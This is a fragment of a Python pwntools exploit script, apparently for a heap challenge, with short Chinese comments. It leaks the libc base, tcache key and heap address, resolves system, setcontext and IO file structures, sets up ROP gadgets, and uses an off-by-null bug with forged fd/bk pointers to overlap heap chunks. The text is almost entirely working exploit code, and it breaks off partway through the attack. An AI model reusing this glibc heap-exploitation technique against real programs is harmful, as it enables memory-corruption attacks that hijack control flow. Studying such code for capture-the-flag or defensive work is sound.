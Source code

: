   ```py
   debug()
   gadget_rdi_rdx = 0x0000000000146080
   
   # 泄漏libc tcache_key heap_addr
   for i in range(10):
       add()   #0~6
   
   for i in range(3,10):
       free(i)
   
   free(0)
   free(1)
   free(2)
   for i in range(10):
       add()
   
   show(7)
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   libc_base = addr - 0x1F2FB0
   success("libc_base   ==> " + hex(addr))
   
   setcontext_addr    = libc_base + libc.sym["setcontext"] + 61
   system_addr        = libc_base + libc.sym["system"]
   IO_2_1_stdout_addr = libc_base + libc.sym["_IO_2_1_stdout_"]
   IO_list_all_addr   = libc_base + libc.sym["_IO_list_all"]
   IO_wfile_jumps_addr = libc_base + libc.sym["_IO_wfile_jumps"]
   IO_2_1_stderr__addr = libc_base + libc.sym["_IO_2_1_stderr_"]
   # IO_wfile_jumps_addr = libc_base + 0x1E4F80
   
   success("system_addr==>"        + hex(system_addr))
   success("setcontext_addr==>"    + hex(setcontext_addr))
   success("IO_2_1_stdout_addr==>" + hex(IO_2_1_stdout_addr))
   success("IO_list_all_addr==>"   + hex(IO_list_all_addr))
   success("IO_wfile_jumps_addr==>"   + hex(IO_wfile_jumps_addr))
   success("IO_2_1_stderr__addr==>"        + hex(IO_2_1_stderr__addr))
   
   open_addr = libc.sym['open']+libc_base
   read_addr = libc.sym['read']+libc_base
   write_addr = libc.sym['write']+libc_base
   
   pop_rdi_ret=libc_base + 0x000000000002daa2
   pop_rdx_r12_ret=libc_base + 0x0000000000106741
   pop_rax_ret=libc_base + 0x000000000002fff4
   pop_rsi_ret=libc_base + 0x0000000000037bda
   ret= libc_base + 0x0000000000037bda + 1
   
   show(9)
   p.recv()
   tcache_key = u64(p.recv(5).ljust(8,b'\x00'))
   success("tcache_key   ==> " + hex(tcache_key))
   heap_addr = tcache_key<<12
   success("heap_addr   ==> " + hex(heap_addr))
   
   
   for i in range(7):
       free(i)
   # 利用off_by_null 造成overlapping
   
   edit(7,0xf8,p64(heap_addr + 0x290)*2)   #伪造fd bk
   free(8)
   
   for i in range(7):
       add()
   ```